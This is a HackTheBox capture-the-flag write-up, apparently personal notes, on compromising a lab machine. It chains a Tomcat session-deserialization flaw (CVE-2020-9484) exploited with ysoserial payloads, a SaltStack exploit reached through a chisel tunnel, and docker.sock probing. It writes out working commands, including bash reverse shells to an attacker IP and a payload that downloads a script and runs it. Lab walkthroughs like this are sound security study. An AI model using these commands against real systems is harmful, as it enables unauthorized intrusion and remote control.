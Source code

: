 HackTheBox
# Scan
![](https://github.com/flucasd7/Ethical-Hacking/blob/main/Pasted%20image%2020240401181810.png)

# Uploading files
When trying to upload a file, it accepts all extension, even whithout any, however when there is no filename, there is an error.

![](https://github.com/flucasd7/Ethical-Hacking/blob/main/Pasted%2020240402175526.png)

Testing email: *test@tes    t.com* We have an error as well:
![](https://github.com/flucasd7/Ethical-Hacking/blob/main/Pasted%2020240402175654.png)
It seems that the upload folder is */opt/samples/uploads* but we don't have access to this

Considering the errors and nmap scan result, this service uses **Apache 9.0.27** which is vulnerable

https://github.com/PenTestical/CVE-2020-9484

Explanation of CVE-2020-9484
https://www.prismosystems.com/blog/cve-2020-9484#:~:text=Exploitation%20Details%20of%20CVE%2D2020%2D9484&text=The%20vulnerability%20resides%20in%20Persistent,of%20the%20attacker%2Dcontrolled%20object.

If *JSSESIONID=../../../../../tmp/test* , at first the manager will verify if this is in memory, is not Persistance Manager (if configured) check if this is stored in disk in the path as *"sessionid".session*

It will look in that path as test.session, as we know that probably .session file will be stored in */opt/samples/uploads* so we can create the payload:

*JSESSIONID=../../../../opt/samples/uploads/file*

Using a *filename=file.session*, in this maner as JSESSIONID doesn't exist in memory, Pesistance Manager wil look for add the extension .session to file, we wiil look for *file.session* in upload *file* and as there is a coincidence, it will execute *file.session*

Using Vulnerable Serialization
#VulnerableSerialization
![[Ysoserial]]

Tyring a ping test, we craft a payload loading a file *ping.session*

`java --add-opens java.base/sun.reflect.annotation=ALL-UNNAMED -jar ysoserial-all.jar CommonsCollections1 'ping -c 1 10.10.14.70' > ping.session`

We can now upload *pin.session* to the vulnerable web server.

### Execution of the payload
We can call this file directly by using *curl* and to get the pin response, we wait for a response by using *tcpdump* tool, the vulnerable JSESSIONID receives the storage path of the application and Persistant manager adds '.session' at the end
````
curl -s -X GET "http://10.10.10.205:8080/" -H "Cookie: JSESSIONID=../../../../../../../opt/samples/uploads/ping"
````

However, we don't receive anything

![](https://github.com/flucasd7/Ethical-Hacking/blob/main/Pasted%2020240403082426.png)
### Using CommonsCollections2
````
java -jar ysoserial-all.jar CommonsCollections2 'ping -c 1 10.10.14.70' > ping2.session
````
![](https://github.com/flucasd7/Ethical-Hacking/blob/main/Pasted%2020240403155457.png)
After loaded, we lunch the curl:
`curl -s -X GET "http://10.10.10.205:8080/" -H "Cookie: JSESSIONID=../../../../../../../opt/samples/uploads/ping2"`

Now we receive the ICMP

**Note:** It's necessary to have a JSESSION ID to load the file so at first we must try with different payloads or load many time until get one, if not it won't work.

## Remote Code execution

We can send a reverse shell in three steps:
### 1. Generating the reverse shell
By leveraging curl, we can upload by a web server in our side by crafting an *index.html* file with a reverse shell:

`#!/bin/bash`
`bash -i >& /dev/tcp/10.10.14.70/4443 0>&1`

Creating the file, after uploaded to the file
 java -jar ysoserial-all.jar CommonsCollections2 'curl 10.10.14.70 -o /dev/shm/reverse.sh' > pwned.session

````
curl -s -X GET "http://10.10.10.205:8080/" -H "Cookie: JSESSIONID=../../../../../../../opt/samples/uploads/pwned"
````

We get a GET request so we can infer it was executed and 
![](https://github.com/flucasd7/Ethical-Hacking/blob/main/Pasted%2020240403160836.png)
### 2. Giving execution permission
````
 java -jar ysoserial-all.jar CommonsCollections2 'chmod +x /dev/shm/reverse.sh' > pwned2.session
````

Load the file and then
````
curl -s -X GET "http://10.10.10.205:8080/" -H "Cookie: JSESSIONID=../../../../../../../opt/samples/uploads/pwned2"
````
### 3. Generating the shell
````
 java -jar ysoserial-all.jar CommonsCollections2 '/dev/shm/reverse.sh' > pwned3.session
````

Load the file and then
````
curl -s -X GET "http://10.10.10.205:8080/" -H "Cookie: JSESSIONID=../../../../../../../opt/samples/uploads/pwned3"
````

curl must be executing with the port 4443 already listening

![](https://github.com/flucasd7/Ethical-Hacking/blob/main/Pasted%2020240403163214.png)

## Privilege Escalation
We can exploit pkexec but it's not the purpose of this machine 
`find \-perm -4000 2>/dev/null`
![](https://github.com/flucasd7/Ethical-Hacking/blob/main/Pasted%2020240403163952.png)

Reviewing internal ports
`netstat -nat`

![](https://github.com/flucasd7/Ethical-Hacking/blob/main/Pasted%2020240403164128.png)

## SaltStak exploitation
Ports 4505 and 4506 were not found in nmap scam

https://www.exploit-db.com/exploits/48421

![](https://github.com/flucasd7/Ethical-Hacking/blob/main/Pasted%2020240403171344.png)

For this exploit we need to have installed module *salt*

As ports 4505 and 4506 are open internally, we can have access to them by chisel 
Uloading chisel:
![](https://github.com/flucasd7/Ethical-Hacking/blob/main/Pasted%2020240403172222.png)

Creating the tunnel:
![](https://github.com/flucasd7/Ethical-Hacking/blob/main/Pasted%2020240403172333.png)

Adding to /etc/proxychains.conf

![](https://github.com/flucasd7/Ethical-Hacking/blob/main/Pasted%2020240403172430.png)

### Using the exploit with proxychains

`proxychains python3 ssaltstack_exploit.py`

Testing command execution with the exploit:
`proxychains python3 ssaltstack_exploit.py --exec "ping 10.10.14.70"`
![](https://github.com/flucasd7/Ethical-Hacking/blob/main/Pasted%2020240403172910.png)

### Creating a shell to the container
We test as first `"bash -c 'bash -i >& /dev/tcp/10.10.14.70/4443 0>&1'"` but it doesn't work, considering using *'* at the beginning and *"* in the inner bash.

`proxychains python3 saltstack_exploit.py --exec 'bash -c "bash -i >& /dev/tcp/10.10.14.70/4443 0>&1"'`

![](https://github.com/flucasd7/Ethical-Hacking/blob/main/Pasted%2020240403173313.png)

## Docker Container breakout
[[Docker Breakout]]

Checking files and *history* of the machine  
- The `history` command in Linux is a powerful feature used primarily in command-line interfaces (CLI) to display a list of commands that have been previously entered by the user in the current session or saved in a user's history file
We found a curl to *docker.sock* to list images

![](https://github.com/flucasd7/Ethical-Hacking/blob/main/Pasted%2020240403175021.png)
we only have access to this with *--unix-sockets*

We can see the same information prettier by sending to the attacker machine

![](https://github.com/flucasd7/Ethical-Hacking/blob/main/Pasted%2020240403180537.png)
![](https://github.com/flucasd7/Ethical-Hacking/blob/main/Pasted%2020240403180522.png)

We can try as well:
`curl -s --unix-socket /var/run/docker.sock http://localhost/containers/json`

To get access to dockers from the main machine, we don't have permissions but we can confirm that the path is /file/run/docker that is found in the container
![](https://github.com/flucasd7/Ethical-Hacking/blob/main/Pasted%2020240403180841.png)

## Writable Docker Socket
We already found an image called *sandbox:latest* 

![[Writable Docker Socket (docker.sock)]]
